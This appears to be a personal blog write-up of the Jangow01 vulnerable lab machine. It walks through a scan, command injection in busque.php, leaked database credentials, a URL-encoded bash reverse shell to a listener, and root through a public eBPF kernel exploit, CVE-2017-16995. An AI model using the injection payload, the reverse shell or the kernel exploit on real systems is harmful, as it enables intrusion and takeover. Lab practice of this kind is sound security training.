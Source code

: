 ```yaml
---
layout: post
title: Jangow01.
date: 03-05-2025
categories: [Basics]
tags: [red]
image: "https://media.istockphoto.com/id/1370317689/photo/black-panther-with-a-black-background.jpg?s=612x612&w=0&k=20&c=A5ljepNP_Sw8PTQQXBkiCRzPKESGu04cr9PXvAYxiVs="
---
```

> Hi kiddle lets move into hacking world.
{: .prompt-danger }

## Scanning
​
```
Nmap 7.95 scan initiated Sat May  3 08:40:46 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -oN scan.txt 192.168.56.118
Nmap scan report for 192.168.56.118
Host is up (0.00079s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-06-10 18:05  site/
|_
MAC Address: 08:00:27:83:96:31 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.0.1; OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done at Sat May  3 08:41:03 2025 -- 1 IP address (1 host up) scanned in 16.55 seconds
```                                                                

## Enumarationg
```
Reverse shell
Request
GET /site/busque.php?buscar=ls HTTP/1.1
Host: 192.168.56.118
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

Responce
HTTP/1.1 200 OK
Date: Sat, 03 May 2025 09:05:23 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 47
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

assets
busque.php
css
index.html
js
wordpress
```

​
## Initial access

![Screenshot From 2025-05-03 11-14-16](https://github.com/user-attachments/assets/8a2fabb6-6b28-4043-a06b-e3877a7e7556)


Enumatration
```
<?php
$servername = "localhost";
$database = "desafio02";
$username = "desafio02";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
?>
```
> Using the next way to access.
{: .prompt-danger }
​
```
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
```



​
## Gaining access

Trying using FTP
```
Try FTP initial access
┌──(cyberkid㉿cyberkiddle)-[~/Desktop/redteam/vulnlab/jagwa]
└─$ nc 192.168.56.118 21                      
220 (vsFTPd 3.0.3)
USER jangow01
331 Please specify the password.
PASS abygurl69
230 Login successful.
ls
500 Unknown command.


FAILED
```

## Payload man

![Screenshot From 2025-05-03 11-13-48](https://github.com/user-attachments/assets/200b4bde-1925-498a-815d-bbe2b4c9c309)


> lucky lets try
{: .prompt-tip }

/bin/bash -c "bash -i >& /dev/tcp/192.168.56.1/443 0>&1"
```
<http://192.168.56.118/site/busque.php?buscar=%2Fbin%2Fbash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.56.1%2F443%200%3E%261%22%0A>
```

## Using netcat
```
┌──(cyberkid㉿cyberkiddle)-[~/Desktop/redteam/vulnlab/jagwa]
└─$ nc -lnvp 443        
listening on [any] 443 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.118] 33832
bash: cannot set terminal process group (2768): Inappropriate ioctl for device
bash: no job control in this shell
www-data@jangow01:/var/www/html/site$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<html/site$ python3 -c 'import pty;pty.spawn("/bin/bash")'                   
www-data@jangow01:/var/www/html/site$ export TERM=xterm
export TERM=xterm
www-data@jangow01:/var/www/html/site$ su jangow01
su jangow01
Password: abygurl69
jangow01@jangow01:/var/www/html/site$ 

```
​
## Privillage escalation
leanpeas.sh and run it give me the 

> WARNING! WARNING! WARNING! KERNEL EXPLOIT IT MAY BREAK THE SYSTEM.
{: .prompt-danger }

```
[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: highly probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,ubuntu=14.04{kernel:4.4.0-89-generic},[ ubuntu=(16.04|17.04) ]{kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1
```
​
## Kernel exploit

> LOVELY TIME
{: .prompt-danger }

https://www.exploit-db.com/exploits/45010
​
```
jangow01@jangow01:~$ ./kiddle 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88003da09300
[*] Leaking sock struct from ffff88000866d2c0
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880033e65a80
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff880033e65a80
[*] credentials patched, launching shell...
# 
```
​
![Screenshot From 2025-05-03 14-24-48](https://github.com/user-attachments/assets/9bec0bf3-b671-4ea4-96de-bfbb2034ff6d)

> red teaming...
{: .prompt-danger }
